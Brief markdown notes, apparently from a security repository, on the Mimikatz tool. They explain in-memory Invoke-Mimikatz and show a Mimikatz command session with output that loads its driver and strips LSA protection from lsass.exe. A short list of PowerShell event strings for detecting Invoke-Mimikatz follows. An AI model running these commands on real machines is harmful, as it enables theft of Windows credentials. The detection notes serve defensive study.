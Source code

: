 ## Mimikatz Tool


### PowerShell & Mimikatz:
---
`Invoke-Mimikatz` loads Mimikatz DLL directly into memory (DLL is embeded in the script), and executed from memory without touching disk.

### LSA Protection
---
A Windows feature that enables protecting LSASS process. Mimikatz can still bypass this with a driver (“!+”).
```powershell
mimikatz# privilege::debug
Privilege '20' OK

mimikatz# !+
[*]mimikatz driver not present
[*]mimikatz driver succesfully loaded
[*]mimikatz driver ACL to everyone
[*]mimikatz driver started

mimikatz# !processprotect /process:lsass.exe /remove
Process: lsass.exe
PID 492 -> 00/00 [0-0-0]
```

### Detecting Invoke-Mimikats
---
PArse PowerShell Events for
- `System.Reflection.AssemblyName`
- `System.Reflection.Emit.AssemblyBuilderAccess`
- `System.Runtime.InteropServices.MarshalAsAttribute`
- `TOKEN_PRIVILEGES`
- `SE_PRIVILEGE_ENABLED`

